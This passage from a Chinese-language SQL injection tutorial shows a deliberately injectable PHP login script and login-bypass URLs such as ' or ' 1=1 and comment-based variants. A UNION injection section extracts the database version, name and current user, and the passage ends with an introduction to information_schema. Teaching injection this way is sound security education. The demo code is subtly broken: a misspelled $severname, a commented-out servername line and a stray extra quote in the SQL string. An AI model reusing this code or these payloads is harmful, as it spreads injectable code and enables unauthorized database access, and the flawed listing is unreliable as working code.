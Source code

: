 ```PHP
<?php
	#servername = "localhost";
	$dbusername = "root";
	$dbpassword = "";
	$dbname = "injection";
	mysql_connect($severname,$dbusername,$dbpassword) or die ("数据库连接失败");
	$sql = "select * from user where username='$username' and password = '$password''";
	$result = mysql_db_query($dbname,$sql);
	$userinfo = mysql_fetch_array($result);
	if(empty($userinfo))
	{
	echo "登录失败";
	}else {
	echo "登录成功";
	}
	echo "<p> SQL Query:$sql <p>";
	?>
```
 4. 然后提交如下URL：
 `http://127.0.0.1/injection/user.php?username=ange1' or ' 1=1 `
结果发现，这个URL可以成功登录系统。
同样，也可以利用SQL的注释语句实现SQL注入，如：
`http://127.0.0.1/injection/user/php?username=angel '/*`
`http://127.0.0.1/injection/user.php?username=angel '#`

因为在SQL语句中，"/*"或者"#"都可以将后面的语句注释掉。这样上述语句就可以通过这两个注释符中任意一个将后面的语句给注释掉了，结果导致只根据用户名而没有密码的URL都成功进行了登录。

## 1.5 SQL UNION注入
UNION语句用于联合前面的select查询语句，合并查询更多信息；
一般通过错误和布尔注入确认注入点之后，便开始通过union语句来获取有效信息。

猜字段数：
```sql
mysql> select * from test.user union select 1;
mysql> select * from test.user union select 1,2;
mysql> select * from test.user union select 1,2,3;
mysql> select * from test.user union select 1,2,3,4;

mysql> select * from test.user union select user_id,user_name,1,2,3 from test.password;

# 获得当前数据库及用户信息
' union select version(),database() -- '
' union select user(),database() -- '
# 说明：
version() # 获得数据库版本信息
database() # 获得当前数据库名
user() # 获得当前用户名
```

## 1.6 information_schema
information_schema-查询数据库中所有表。
information_schema数据库是Mysql自带的，它提供了访问数据库元数据的方式；
元数据包括数据库名、表名、列数据类型、访问权限、字符集等基础信息。

